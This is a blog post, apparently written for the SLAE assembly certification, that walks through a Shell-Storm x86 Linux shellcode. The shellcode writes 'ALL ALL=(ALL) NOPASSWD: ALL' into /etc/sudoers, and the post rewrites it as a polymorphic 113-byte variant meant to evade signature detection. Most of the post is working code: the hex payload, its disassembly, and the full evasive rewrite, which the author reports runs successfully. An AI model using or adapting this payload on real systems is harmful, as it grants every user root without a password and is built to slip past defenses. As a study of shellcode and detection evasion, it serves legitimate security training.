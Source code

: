 ```yaml
---
layout: post
title: SLAE 6.3 - Shell-Storm Polymorphism - edit sudoers
date:   2019-03-06
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 3 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* The polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The 3rd shellcode we will try to make a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-62.php](http://shell-storm.org/shellcode/files/shellcode-62.php)

The length is 86 bytes.  To fit the requirements for the exam, we have to make a version no greater than 150% of the original, giving us a maximum of 129 bytes.

Let's check the shellcode and what it does:
```nasm
echo -ne "\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  686F657273        push dword 0x7372656f
00000008  682F737564        push dword 0x6475732f
0000000D  682F657463        push dword 0x6374652f     ; /etc/sudoers
00000012  89E3              mov ebx,esp
00000014  66B90104          mov cx,0x401
00000018  B005              mov al,0x5
0000001A  CD80              int 0x80                  ; call open
0000001C  89C3              mov ebx,eax
0000001E  31C0              xor eax,eax
00000020  50                push eax
00000021  68414C4C0A        push dword 0xa4c4c41
00000026  6857443A20        push dword 0x203a4457
0000002B  6850415353        push dword 0x53534150
00000030  6829204E4F        push dword 0x4f4e2029
00000035  6828414C4C        push dword 0x4c4c4128
0000003A  68414C4C3D        push dword 0x3d4c4c41
0000003F  68414C4C20        push dword 0x204c4c41       ; ALL ALL=(ALL) NOPASSWD: ALL\n
00000044  89E1              mov ecx,esp
00000046  B21C              mov dl,0x1c
00000048  B004              mov al,0x4
0000004A  CD80              int 0x80                     ; call write
0000004C  B006              mov al,0x6
0000004E  CD80              int 0x80                     ; call close
00000050  31DB              xor ebx,ebx
00000052  B001              mov al,0x1
00000054  CD80              int 0x80                      ; call exit
```
So we have push "/etc/sudoers", call open

Push "ALL ALL=(ALL) NOPASSWD: ALL\n", call write

call close, call exit.  Looks good!  Let's start our attempt at a polymorphic version.

So let's zero out EAX and push it to the stack.  I am going to subtract EAX from itself to get 0, I will update the stack pointer myself then place the value at the new ESP location.  This creates some variation on how we are pushing a value to the stack.  Remember, the stack grows towards 0 so we subtract 4 from esp in order to make room for the value we want to put on the stack.
```nasm
sub eax, eax
sub esp, 4
mov [esp], eax
```
Next we will push "/etc/sudoers" to the stack and update ebx to the stack pointer.  I have decided to split up the pushes if any signatures match on the dword pushes for sudoers.  I left the /etc as a dword to mix up the combinations of pushes since /etc does not necessarily mean we are up to no good.
```nasm
push word 0x7372
push word 0x656f
push word 0x6475
push word 0x732f
push dword 0x6374652f
sub ebx, ebx
add ebx, esp
```
Setting up ECX and EAX:

EAX is already 0, so we can and ECX with EAX in order to zero out ECX.  We then add the argument value we need to CX mixing it up since the original used mov instructions.  We then use add to AL for the syscall value since EAX is already zero'd out and make the syscall.
```nasm
and ecx, eax
add cx, 0x401
add al, 0x5
int 0x80
```
Next, we move the return value into EBX.  The original uses a mov instruction so we can just replace that with xchg. 

zero out EAX by subtracting it from itself, then push the null value using our manual stack manipulation. 

Then we will push the string to the stack.  This time we have just split the word PASS into two word pushes vs 1 dword push.

Then ESP's value is moved into ECX.  The variation that I will use is to subtract ECX from itself to make it zero, then add esp to it so that ECX = ESP.
```nasm
xchg ebx, eax
sub eax, eax
sub esp, 4
mov [esp], eax
push dword 0xa4c4c41
push dword 0x203a4457
push word 0x5353
push word 0x4150
push dword 0x4f4e2029
push dword 0x4c4c4128
push dword 0x3d4c4c41
push dword 0x204c4c41
sub ecx, ecx
add ecx, esp
```
Next we need to set up the rest of the args, EDX and EAX. Once those args are prepared, it will be time to make the syscall.

My EDX was not zero'd out here and would not work without adding an instruction to make sure edx = 0x1c. So I used XOR to make EDX zero, then moved the proper argument value into DL.  EAX is still zero from previous instructions at this point, so I just add 0x4 to get our syscall value.
```nasm
xor edx, edx
mov dl, 0x1c
add al, 0x4
int 0x80
```
Then we need to update AL for the call to 'close'.
```nasm
mov al, 0x6
int 0x80
```
For the last call, we need to zero out EBX and make EAX = 1.
```nasm
mov al, 0x1
sub ebx, ebx
int 0x80
```
Here is the final outcome:
```nasm
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0x7372656f                   push word 0x7372
                                        push word 0x656f
push dword 0x6475732f                   push word 0x6475
                                        push word 0x732f
push dword 0x6374652f                   push dword 0x6374652f   
mov ebx,esp                             sub ebx, ebx
                                        add ebx, esp
mov cx,0x401                            and ecx, eax
                                        add cx ,0x401
mov al,0x5                              add al, 0x5
int 0x80                                int 0x80                
mov ebx,eax                             xchg ebx, eax
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0xa4c4c41                    push dword 0xa4c4c41
push dword 0x203a4457                   push dword 0x203a4457
push dword 0x53534150                   push word 0x5353
                                        push word 0x4150
push dword 0x4f4e2029                   push dword 0x4f4e2029
push dword 0x4c4c4128                   push dword 0x4c4c4128
push dword 0x3d4c4c41                   push dword 0x3d4c4c41
push dword 0x204c4c41                   push dword 0x204c4c41
mov ecx,esp                             sub ecx, ecx
                                        add ecx, esp
mov dl,0x1c                             xor edx, edx
                                        mov dl, 0x1c
mov al,0x4                              add al, 0x4
int 0x80                                int 0x80
mov al,0x6                              mov al, 0x6
int 0x80                                int 0x80
xor ebx,ebx                             mov al, 0x1
mov al,0x1                              sub ebx, ebx
int 0x80                                int 0x80
```
Our total length of the new shellcode is 113 bytes and runs successfully.
